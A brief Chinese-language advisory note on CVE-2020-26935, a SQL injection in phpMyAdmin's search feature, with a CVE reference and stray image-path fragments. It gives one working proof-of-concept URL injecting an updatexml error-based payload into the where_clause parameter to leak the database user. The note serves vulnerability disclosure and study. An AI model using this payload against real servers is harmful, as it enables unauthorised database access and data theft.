 # CVE-2020-26935 phpmyadmin后台SQL注入

在4.9.6之前的phpMyAdmin和5.0.3之前的5.x的SearchController中发现一个问题。在phpMyAdmin如何处理搜索功能中的SQL语句中发现了一个SQL注入漏洞。攻击者可以利用此漏洞将恶意SQL注入查询。

Payload：


```sql
http://127.0.0.1/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```

media/16097301750220/16097301904175.jpg)


Reference

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26935

via：copy@xianzhi

from：https://xz.aliyun.com/t/8524